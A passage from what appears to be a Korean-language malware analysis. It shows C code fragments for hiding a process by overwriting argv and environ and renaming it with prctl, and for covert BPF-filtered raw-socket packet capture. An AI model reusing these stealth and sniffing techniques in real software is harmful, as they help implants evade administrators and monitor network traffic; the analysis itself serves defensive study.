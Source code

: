 ```c
 
        for (i = 0; environ[i]; i++)
        {
                memcpy(raw, environ[i], strlen(environ[i]) + 1);
                environ[i] = raw;
                raw += strlen(environ[i]) + 1;
        }
 
        last = argv[0];
 
        for (i = 0; i < argc; i++)
                last += strlen(argv[i]) + 1;
        for (i = 0; environ[i]; i++)
                last += strlen(environ[i]) + 1;
 
        memset(argv0, 0x00, last - argv0);
        strncpy(argv0, new, last - argv0);
 
        prctl(PR_SET_NAME, (unsigned long) new);
        return 0;
}

// ...

set_proc_name(argc, argv, cfg.mask);
```

### 5. BPF 기반 패킷 스니핑

- 로우 소켓을 통해 NIC를 직접 제어하여 IP 패킷을 캡처한다. 이 때 BPF 필터 (struct sock_fprog)를 사용해 특정 조건 (프로토콜, 포트, 패턴 등)을 만족하는 패킷만을 처리한다.

```c
// Filter Options Build Filter Struct
struct sock_fprog filter;
struct sock_filter bpf_code[] = {
        { 0x28, 0, 0, 0x0000000c },
        { 0x15, 0, 27, 0x00000800 },
        { 0x30, 0, 0, 0x00000017 },
        // ...
};

filter.len = sizeof(bpf_code)/sizeof(bpf_code[0]);
filter.filter = bpf_code;

// Build a rawsocket that binds the NIC to receive Ethernet frames
if ((sock = socket(PF_PACKET, SOCK_RAW, htons(ETH_P_IP))) < 1)
        return;

// Set a packet filter
if (setsockopt(sock, SOL_SOCKET, SO_ATTACH_FILTER, &filter, sizeof(filter)) == -1) {
        return;
}

// Loop to Read Packets in 512 Chunks
while (1) {
        memset(buff, 0, 512);
        psize = 0;
        r_len = recvfrom(sock, buff, 512, 0x0, NULL, NULL);
        // ...
}
close(sock);
```
